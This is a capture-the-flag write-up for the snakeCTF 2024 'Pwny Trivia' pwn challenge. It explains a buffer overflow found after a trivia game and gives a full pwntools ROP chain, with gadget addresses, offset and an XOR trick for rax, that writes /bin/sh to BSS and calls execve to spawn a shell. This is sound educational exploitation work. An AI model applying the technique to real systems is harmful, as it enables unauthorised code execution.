

# Pwny Trivia [_snakeCTF 2024 Quals_]

**Category**: pwn

## Description

I tried to write my own trivia game b/c I was bored, now I'm considering selling it!

## Solution

The program is a trivia game that requires the user to answer correctly to 5
questions to win.

By running `strings` on the binary, the hardcoded questions and answers can
easily be found, so it is possible to build a script that always answers
correctly and gets through the game.

By decompiling the program, it can be seen that after having answered correctly
to all the questions, when there is the possibility of sending an arbitrary input,
the call to `read` exposes the program to a buffer overflow.



At this point the most straightforward way to get the flag is to build a ROP chain.
Conveniently, there are some functions that provide some gadgets that can be
directly used to build the chain:

The following gadgets are available, and they allow writing `/bin/sh` in memory
and with the goal of executing a `execve` syscall:

```python
ADD_RBX_1_MUL_RBX_MOV_RBX_RAX = 0x4011ca # add rbx, 1; mul rbx; mov rbx, rax; ret;
XOR_RBX_RBX = 0x4011dc # xor rbx, rbx; ret;
MOV_RCX_RBX = 0x4011e7 # mov [rcx], rbx;
POP_RCX_XOR_RAX_RCX_SUB_RAX_1 = 0x4011f2 # pop rcx; xor rax, rcx; sub rax, 0x1; ret
POP_RDI_POP_RSI_POP_RDX = 0x401202 # pop rdi; pop rsi; pop rdx; ret;
SYSCALL = 0x40152a # syscall
```

The goal is to write `b"/bin/sh\x00"` in `rbx`, load a writable address in `rcx`
and then write to that address using `MOV_RCX_RBX`. After having `/bin/sh`, all
it takes is to call `execve` and get a shell.

## Writing /bin/sh in `rbx`

```python
def write_bin_sh():
    chain = flat(
        # zeroing rax after last printf in program (prints 0x26 bytes)
        POP_RCX_XOR_RAX_RCX_SUB_RAX_1,
        0x27,
        # now rax = 0
        POP_RCX_XOR_RAX_RCX_SUB_RAX_1, b'0bin/sh\x00', # '0' gets decremented and becomes '/'
        # zeroing rbx
        XOR_RBX_RBX,
        # moving /bin/sh\x00 to rbx
        ADD_RBX_1_MUL_RBX_MOV_RBX_RAX
    )

    return chain
```

## Writing in memory and calling `execve`

An arbitrary writable address can be chosen, for example `0x407b20` which is in
BSS, and loaded into `rcx` by using `POP_RCX_XOR_RAX_RCX_SUB_RAX_1`. At this
point `MOV_RCX_RBX = mov [rcx], rbx` writes `/bin/sh\x00` in memory.

The last step needed is loading `0x3b` in `rax` in order to perform a `execve`.
If the binary is debugged in `gdb` it can be seen that after the execution of the
chain until this point, `rax` contains the value `0x68732f6e291f3a`, so by
sending `0x68732f6e291f3a ^ (0x3b + 1)` as a payload (+1 because the gadget
contains `sub rax 1`) it is possible to store the correct value in `rax`. With
`POP_RDI_POP_RSI_POP_RDX` the registers used to store the arguments can be modified, and finally with
`SYSCALL` a shell gets spawned. The complete chain looks like:

```python
BSS = 0x407b20
MEM = BSS + 500

offset = 136
chain = flat(
    offset * b'A',
    write_bin_sh(),
    # write addr where to write in rcx
    POP_RCX_XOR_RAX_RCX_SUB_RAX_1,
    MEM,
    # write /bin/sh in memory
    MOV_RCX_RBX,
    # load in rax 0x3b to perform execve
    POP_RCX_XOR_RAX_RCX_SUB_RAX_1,
    0x68732f6e291f3a ^ (0x3b + 1), # value in rax after previous ops ^ (value we want + 1 because of sub)
    # load args in registers for execve
    POP_RDI_POP_RSI_POP_RDX,
    MEM,    # *filename = addr of /bin/sh written in memory
    0,      # argv
    0,      # envp
    SYSCALL # profit
)
```
